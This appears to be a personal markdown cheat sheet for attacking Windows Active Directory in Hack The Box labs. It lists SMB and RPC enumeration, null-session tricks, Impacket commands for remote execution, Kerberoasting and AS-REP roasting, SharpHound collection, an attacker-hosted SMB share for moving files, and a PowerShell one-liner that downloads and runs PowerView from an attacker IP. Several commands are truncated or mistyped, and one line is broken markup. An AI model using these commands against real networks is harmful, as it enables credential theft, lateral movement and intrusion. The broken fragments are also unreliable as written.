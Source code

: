 # Active Directory

if you have kerberos, dns and ldap, its probably a windows domain controller

## using SMBMAP

```text
smbmap -H 10.10.10.161
smbmap -R  -H 
smbmap -R  -H  -A Groups.xml -q
smbmap -d dom -u usm -p pass -H host
```

## Once we have a valid credential

`GetADUsers.py -all -dc-ip 10.10.10.100 active.htb/svc_tgs:`

`pxexec.py dom/usn:pwd@host`

when yu have a valid credential, you can run

`runas /netonly /user:active.htb\svc_tgs cmd`

on a windows cmdlien, and you'll have access to the remote one

once you run this, you can run bloodhound from your windows boxn from where you have authenticated as the domain user

`.\sharphound.exe -a all -d active.htb --domain-controller 10.10.10.100`

if you're doing sharphound from your windows machine, its worth changing the DNS to the DNS of the domain controller

`GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs:` this is called Kerberoasting ^^

General TIP: when you ping, if the TTL is above 128, usually some network infrastructure, if its b/w 64 and 128, its a windows box, if its 64 or below, its a Linux box

crackmapexec getting password policy

`crackmapexec smb 10.10.10.161 --pass-pol`

## Nulll auth

just pass -u '' -p '' everywhere

`GetNPUsers.py -dc-ip 10.10.10.161 htb.local/`

`rpcclient -U '' 10.10.10.161`

once in rpc, enumdomusers, queryusergroups, querygroup , queryuser

## SMB server on linux using impacket

`impacket-smbserver sharename $(pwd) -smb2support -user user -password pass`

now on the windows powershell,

```text
$pass = convertto-securestring 'guest' -asplaintext -force
$cred = new-object system.management.automation.pscredential('guest', $pass)
new-psdrive -name kalidrive -psprovider filesystem -credential $cred -root \\10.10.14.77\kalishare
```

 X:\" "&gt;

```text
net use x: \\10.10.14.77\kalishare /user:guest guest
cmd /c "copy  X:\"
```

## Powerview

IEX\(new-object net.webclient\).downloadstring\('http://$IP/PowerView.ps1'\) =&gt; this directly import powerview into source

## LDAPSEARCH

ldapsearch

## Group Managed Service Accounts - gMSA

can be used on multiple hosts, scheduled tasks

`gMSAs enable automatic password management across multiple computers using Kerberos KDC`

